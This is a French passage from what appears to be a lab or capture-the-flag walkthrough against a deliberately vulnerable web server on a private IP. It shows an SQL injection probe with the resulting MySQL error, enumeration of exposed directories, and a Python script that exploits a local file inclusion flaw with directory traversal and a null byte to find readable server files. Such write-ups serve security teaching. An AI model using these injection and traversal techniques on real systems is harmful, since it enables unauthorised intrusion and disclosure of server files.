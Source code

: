 Dans d'autres URLs on trouve un paramètre id. Et repaff !  

```plain
http://192.168.1.99/index.html?page=blog&title=Blog&id=%22%27
Warning: mysql_fetch_row(): supplied argument is not a valid MySQL result resource in /var/www/html/pages/blog.php on line 20
```

Et ben voilà ! C'est de l'élevage, ils ont fait un lâcher ! Vous connaissez mon côté sportif, j'ai failli remettre le couteau dans l'étui...  

Mais puisqu'on a commencé, finissons cette boucherie.  

Sous */mail/* on trouve un *SquirrelMail* 1.4.17.  

Sous */restricted/* il y a une section privée qui demande une authentification (erreur 401). Cette dernière n'est pas bypassable avec *Wapiti*.  

Sous */conf/* on obtient une erreur 500 (I*nternal Server Error*)  

Sous */sql/* on trouve un script *db.sql* qui contient des instructions pour créer une base de donnée baptisée *ehks* et correspondant au site principal.  

Et sous */admin/* on trouve un formulaire de connexion protégé... avec un javascript qui retire les apostrophes et double-quotes !  

Commencer le massacre
---------------------

Ça a beau être de l'élevage, le vrai chasseur sait rendre la traque plus intéressante si il le faut.  

Pour cela j'ai écrit un script Python qui exploite la faille d'inclusion et va automatiquement tester la présence de fichiers listés dans *files.txt*.  

Le principe est le suivant : on teste un path de fichier dans l'URL (en ajoutant la remontée d'arborescence et l'octet nul) et on regarde via *BeautifulSoup* si on a du contenu présent dans la balise div où se fait normalement l'inclusion de données.  

```python
import requests
from bs4 import BeautifulSoup

URL = "http://192.168.1.99/index.html?page=../../../../../..PARAM%00&title=Blog"

fd = open("files.txt")

while True:
    word = fd.readline()
    if not word:
        break
    word = word.strip()
    r = requests.get(URL.replace("PARAM", word))
    bs = BeautifulSoup(r.content)
    content = bs.find("div", id="main").text.strip()
    if len(content):
        print "Contenu trouve avec", word
fd.close()
```
